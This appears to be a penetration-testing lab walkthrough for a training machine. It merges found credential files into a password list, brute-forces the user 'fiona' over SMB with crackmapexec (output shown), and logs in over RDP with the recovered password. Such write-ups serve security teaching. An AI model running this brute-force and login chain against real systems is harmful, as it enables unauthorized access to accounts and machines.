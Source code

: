 The files creds.txt, secrets.txt, and random.txt, all seem to contain potential passwords, therefore, combine all of the files into one:

```
cat creds.txt secrets.txt random.txt > passwords.txt
```

Inside the paswords.txt file contains all the passwords: 

```
Windows Creds

kAkd03SA@#!
48Ns72!bns74@S84NNNSl
SecurePassword!
Password123!
SecureLocationforPasswordsd123!!
Password Lists:

1234567
(DK02ka-dsaldS
Inlanefreight2022
Inlanefreight2022!
TestingDB123

Credentials

(k20ASD10934kadA
KDIlalsa9020$
JT9ads02lasSA@
Kaksd032klasdA#
LKads9kasd0-@
```


Use crackmapexec to bruteforce the password of the user fiona on SMB:

```
sudo cme smb 10.129.203.10 -u fiona -p passwords.txt
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [-] WIN-HARD\fiona:Windows Creds STATUS_LOGON_FAILURE 
SMB         10.129.203.10   445    WIN-HARD         [-] WIN-HARD\fiona: STATUS_LOGON_FAILURE 
SMB         10.129.203.10   445    WIN-HARD         [-] WIN-HARD\fiona:kAkd03SA@#! STATUS_LOGON_FAILURE 
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl   <-----------------
```

There is the user: Fiona and the password: 48Ns72!bns74@S84NNNSl

Using the attained credentials, connect to spawned target using xfreerdp and then open PowerShell: 

```
xfreerdp /v:10.129.203.10 /u:fiona /p:'48Ns72!bns74@S84NNNSl'
```
